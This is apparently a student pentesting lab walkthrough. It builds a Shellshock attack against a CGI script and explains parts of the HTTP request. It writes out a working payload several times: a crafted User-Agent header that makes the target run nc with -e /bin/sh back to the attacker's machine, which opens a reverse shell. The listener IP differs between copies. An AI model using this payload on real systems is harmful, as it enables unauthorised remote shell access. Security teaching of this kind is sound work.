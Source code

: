 We’re going to execute a complicated series of commands that we’ll dive
into below. It’s easy to make typos, so I created a small script that
you can execute which takes care of the typing for you. You can easily
start the test by typing the following

-   ./trickserver.sh

trickserver.sh launches the following command:

*echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () { :;};
/usr/bin/nc 192.168.64.210 443 -e /bin/sh\\r\\nHost:
vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc 192.168.64.201 80*

This command is our magic hacking spell. If you want to understand what
is happening in the attack, continue reading. Most students should just
skip to step 4.

**Detailed Discussion of the attack**

The line above contains 5 commands that are chained together to obtain
shell access on the server. Let’s break down this command into its parts

  **echo -e** "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () { :;}; /usr/bin/nc 192.168.64.10 443 -e /bin/sh\\r\\nHost: vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc 192.168.64.210 80
  -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

The **echo** utility writes any specified operands, separated by single
blank (\` ') characters and followed by a newline (\`\\n') character, to
the standard output.

  echo -e **"HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () { :;}; /usr/bin/nc 192.168.64.10 443 -e /bin/sh\\r\\nHost: vulnerable\\r\\nConnection: close\\r\\n\\r\\n"** | nc 192.168.64. 210 80
  --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

This is the command we’re pushing through Echo into the NC command. NC
is used to throw the attack at the server.

When the server processes the message, it will open up it’s own NC
listener and try to connect back to your pentesting workstation.

This attack is comprised of 4 parts. We’ll trim everything outside of
the attack we’re sending and break it down in detail:

  **"HEAD /cgi-bin/status** HTTP/1.1\\r\\nUser-Agent: () { :;}; /usr/bin/nc 192.168.64.10 443 -e /bin/sh\\r\\nHost: vulnerable\\r\\nConnection: close\\r\\n\\r\\n"
  ------------------------------------------------------------------------------------------------------------------------------------------------------------------

We’re hand crafting an HTTP request with this command. “HEAD” is one of
8 methods for HTTP requests. The HEAD method is used to retrieve
information from the server for a given URI. We are specifying the URI
/cgi-bin/status. This should make sense- remember that we found that as
a vulnerable URI earlier? (By the way- URI stands for Uniform Resource
Identifier)

  "HEAD /cgi-bin/status **HTTP/1.1\\r\\nUser-Agent:** () { :;}; /usr/bin/nc 192.168.64.10 443 -e /bin/sh\\r\\nHost: vulnerable\\r\\nConnection: close\\r\\n\\r\\n"
  ------------------------------------------------------------------------------------------------------------------------------------------------------------------
